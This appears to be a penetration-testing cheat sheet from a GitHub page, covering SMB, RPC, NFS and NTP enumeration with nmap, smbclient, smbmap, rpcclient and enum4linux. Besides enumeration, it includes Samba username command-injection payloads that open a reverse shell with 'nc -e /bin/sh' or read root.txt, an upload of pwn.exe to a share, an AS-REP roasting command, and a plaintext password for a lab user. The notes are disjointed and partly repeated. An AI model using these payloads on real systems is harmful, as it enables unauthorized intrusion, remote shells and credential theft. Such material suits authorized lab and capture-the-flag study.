 https://github.com/absolomb/Pentesting/blob/master/guides/Initial%20Enumeration.md
#### smbmap
• Name:
• Version:
• Domain/workgroup name:
• Domain-sid:
• Allows unauthenticated login:

```
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse INSERTIPADDRESS -p 445

enum4linux -a INSERTIPADDRESS
rpcclient -U "" INSERTIPADDRESS
	-c options
	    srvinfo
enumdomusers
getdompwinfo
querydominfo
netshareenum
netshareenumall
smbclient -L INSERTIPADDRESS
smbclient //INSERTIPADDRESS/tmp
mask ""
recurse ON
prompt OFF
mget *


smbclient \\\\INSERTIPADDRESS\\ipc$ -U john
smbclient //INSERTIPADDRESS/ipc$ -U john 
nmblookup -A INSERTIPADDRESS
```

![image](https://user-images.githubusercontent.com/9059079/118906570-0031fa00-b8ec-11eb-83e5-47f90fca76ca.png)




  smbmap -H "10.10.185.43" | tee "recon/smbmap_10.10.185.43.txt"    
  smbmap -H "10.10.185.43" -u milesdyson -p ')s{A&2Z=F^n_E.B`'
  smbmap -u null -p "" -H 10.10.83.190  -P 445 -R 
  
  `smbclient \\\\10.10.104.121\\nt4wrksv`
  .smb: \> put pwn.exe                                                                                                                                       │        dr--r--r--   
#### smbclient
  smbclient -L 10.10.10.134

  smbclient --user=milesdyson //10.10.185.43/milesdyson 

  smbclient -L "//10.10.185.43/" -U "guest"%| tee "recon/smbclient_10.10.185.43.txt"              
smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
  smbclient -L x.x.x.x
  
  smbmount //x.x.x.x/share /mnt –o username=hodor,workgroup=hodor
  
  smbclient //10.10.100.49/anonymous
  
  enum4linux -a ip
  
  
  
  
  client -U "" -N x.x.x.x  #Anonymous bind using rpcclient / Null connect
  
  smbclient //MOUNT/share #Connect to SMB share

  smbclient -U "/=&#92;&#96;nohup nc -e /bin/sh LHOST LPORT&#92;&#96;" -N -I ip //LAME/tmp

  nmap -T4 -sS -sC -Pn -A --script smb-vuln* ip
  
  smbclient //ip/tmp
  logon "./=`nohup nc -e /bin/sh LHOST LPORT`"

  smbclient -U "/=\`nohup cat /root/root.txt > /tmp/ttt\`" -N -I ip //LAME/tmp

  smbclient -U "/=\`nohup nc -e /bin/sh 10.10.15.11 60000\`" -N -I ip //LAME/tmp
  
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.100.49


mount
  mount ip:/vol/share /mnt/nfs  -nolock
  
  mount -t cifs -o username=user,password=pass,domain=blah //ip.X/share-name /mnt/cifs
  
  mount -t cifs //x.x.x.x/share /mnt
  
  mount -t cifs -o username=hodor,password=hodor //x.x.x.x/share /mnt
  
#### Mounting File Share
  showmount -e IPADDR
  sudo mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow_other

# Port 111 - Rpcbind
	rpcinfo -p INSERTIPADDRESS

# Port 123-NTP
	ntp-info and ntp-monlist
	Check ntpd version for exploits
# Port 139/445 - SMB
	• Name:
	• Version:
	• Domain/workgroup name:
	• Domain-sid:
	• Allows unauthenticated login:
```
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse INSERTIPADDRESS -p 445
```
```	
enum4linux -a INSERTIPADDRESS
rpcclient -U "" -N INSERTIPADDRESS		-c options
srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
    smbclient -L INSERTIPADDRESS
    smbclient //INSERTIPADDRESS/tmp
    smbclient \\\\INSERTIPADDRESS\\ipc$ -U john
    smbclient //INSERTIPADDRESS/ipc$ -U john 
	nmblookup -A INSERTIPADDRESS
#Admin acount
rpcclient $> enumdomgroups

rpcclient $> querygroup 0x200          
rpcclient $> querygroupmem 0x200
rpcclient $> queryuser 0x1f4            
```  
```
GetNPUsers.py -format john -no-pass -k -usersfile users -dc-ip 10.10.10.161 HTB.LOCAL/
```
